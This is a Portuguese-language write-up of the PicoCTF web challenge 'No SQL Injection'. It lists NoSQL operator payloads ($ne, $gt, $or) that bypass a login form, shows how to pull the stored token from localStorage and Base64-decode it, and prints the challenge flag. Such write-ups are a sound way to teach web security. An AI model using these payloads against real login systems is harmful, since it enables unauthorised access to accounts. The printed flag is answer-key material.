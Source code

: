 # PicoCTF: No SQL Injection

**Author**: NGIRIMANA Schadrac \
**Plataforma**: PicoCTF\
**Categoria**: Web Exploitation\
**Dificuldade**: Média

## Desafio

Este desafio explora uma vulnerabilidade de NoSQL Injection para obter acesso ao sistema sem credenciais válidas. O objetivo principal é encontrar a flag utilizando NoSQL Injection.

---

## Solução

### 1. Análise inicial

Ao acessar o site, foi identificado um formulário de login que solicita **email** e **senha**.

No console do navegador, é exibida uma mensagem indicando que, após um login bem-sucedido, um token será armazenado no `localStorage`.

![Imagem 1: Console do navegador](./assets/img1.jpg)

---

### 2. Explorando a vulnerabilidade de NoSQL Injection

#### Objetivo:

Efetuar o login sem fornecer credenciais válidas, explorando uma vulnerabilidade de NoSQL Injection.

#### Exemplos de NoSQL Injection:

1. **Utilizando `$ne` (not equal):**

   - Email:
     ```json
     { "$ne": null }
     ```
   - Senha:
     ```json
     { "$ne": null }
     ```
     Esse payload ignora qualquer validação ao verificar que o valor não é nulo.

2. **Usando `$gt` (maior que):**

   - Email:
     ```json
     { "$gt": "" }
     ```
   - Senha:
     ```json
     { "$gt": "" }
     ```
     Permite valores que sejam "maiores" do que uma string vazia, efetivamente ignorando verificações.

3. **Forçando condições verdadeiras com `$or`:**
   - Email:
     ```json
     { "$or": [{ "admin": true }, { "email": { "$ne": null } }] }
     ```
   - Senha:
     ```json
     { "$ne": null }
     ```
     Esse payload verifica múltiplas condições, aceitando o login se uma delas for verdadeira.

#### No desafio foi utilizado:

No campo **email**:

```json
{ "$ne": "null" }
```

E no campo **senha**:

```json
{ "$ne": "null" }
```

Essa abordagem foi bem-sucedida e confirmou a vulnerabilidade do sistema.

---

### 3. Recuperando o token

Após o login bem-sucedido, um token é armazenado no `localStorage`. Para acessá-lo:

1. Abra o console do navegador.
2. Navegue até a aba **Application**.
3. No menu lateral, vá para **Storage > Local Storage**.
4. Localize o token armazenado.

![Imagem 2: Console do navegador](./assets/img2.jpg)

---

### 4. Decodificando o token

O token encontrado está em formato **Base64**. Para decodificá-lo:

1. Copie o token.
2. Utilize uma ferramenta ou método para decodificação Base64.

---

### 5. Flag

Após decodificar o token, a flag será exibida no formato:

```
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_25ba4de1}
```

---

## Autor da WriteUp

[Membro de Exploitation - jvittor1](https://github.com/jvittor1)
